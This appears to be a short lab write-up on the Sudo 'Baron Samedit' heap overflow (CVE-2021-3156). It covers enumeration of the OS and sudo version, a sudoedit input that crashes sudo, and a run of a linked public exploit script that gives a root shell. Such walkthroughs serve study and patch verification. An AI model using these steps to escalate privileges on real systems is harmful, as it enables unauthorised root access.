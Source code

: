 # CVE-2021-3156 - Sudo Baron Samedit

Heap-based buffer overflow in Sudo. This vulnerability:

- is exploitable by any local user (normal users and system users, sudoers and non-sudoers), without authentication (i.e., the attacker does not need to know the user's password);

- was introduced in July 2011 (commit 8255ed69), and affects all legacy versions from 1.8.2 to 1.8.31p2 and all stable versions from 1.9.0 to 1.9.5p1, in their default configuration.

## Enumeration

```bash
$ cat /etc/lsb-release

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.3 LTS"
```

```bash
$ sudo -V

Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

Confirming the bug

```bash
$ sudoedit -s '1234567890123456789012\'

malloc(): invalid size (unsorted)
Aborted (core dumped)
```

## Exploitation

Running [exploit_nss.py](https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py)

```bash
$ python3 exploit_nss.py 

# id
uid=0(root) gid=0(root) groups=0(root),1001(student)
```

## Links

- [Qualys - Baron Samedit](https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt)
- [GitHub - PoC - worawit](https://github.com/worawit/CVE-2021-3156)
- [GitHub - PoC - blasty](https://github.com/blasty/CVE-2021-3156)

